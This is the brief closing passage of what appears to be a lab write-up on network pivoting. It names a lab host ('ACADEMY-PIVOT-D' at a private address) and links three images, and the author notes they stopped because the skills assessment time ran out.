

## ACADEMY-PIVOT-D (host `172.16.10.5` )





Well, i have to stop here because my skills assessment is running out of time to expand ☹️.And yeah all the questions in this lab can be done at this point… Alright maybe i will be back with this and explore more some days ….